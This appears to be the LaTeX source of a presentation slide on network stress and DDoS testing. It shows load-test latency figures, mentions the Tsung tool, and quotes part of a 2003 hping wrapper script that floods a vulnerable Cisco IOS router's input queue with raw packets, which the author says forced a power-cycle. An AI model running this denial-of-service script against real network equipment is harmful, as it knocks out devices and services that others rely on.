 \documentclass[Screen16to9,17pt]{foils}
\begin{document}

\begin{alltt}
\footnotesize
Connection Times (ms)
              min  mean[+/-sd] median   max
Connect:       48   71 105.5     61    1114
Processing:     6   25 157.8      9    1587
Waiting:        5    9   1.9      9      16
Total:         55   96 189.0     70    1649

Percentage of the requests served within a certain time (ms)
  50%     70
  66%     72
  75%     73
  80%     74
  90%     76
  95%     78
  98%   1124
  99%   1649
 100%   1649 (longest request)
\end{alltt}



\begin{list1}
\item Tsung can be used to stress HTTP, WebDAV, SOAP, PostgreSQL, MySQL, LDAP and Jabber/XMPP servers 
\item Some are targetted towards JSON and REST API testing
\end{list1}






\begin{alltt}\scriptsize
#!/bin/sh
# 2003-07-21 pdonahue cisco-44020.sh
# -- this shell script is just a wrapper for hping (http://www.hping.org)
#    with the parameters necessary to fill the input queue on
# exploitable IOS device
# -- refer to "Cisco Security Advisory: Cisco IOS Interface Blocked by IPv4 Packets"
# (http://www.cisco.com/warp/public/707/cisco-sa-20030717-blocked.shtml)
...
for protocol in $PROT
    do
       $HPING $HOST --rawip $ADDR --ttl $TTL --ipproto $protocol \\
       --count $NUMB --interval u250 --data $SIZE --file /dev/urandom
    done
\end{alltt}

Produced a sequence of packets, that required the router to be powered OFF and ON again to return to normal

I have multiple presentations about network DDoS testing, see my repository\\
\end{document}

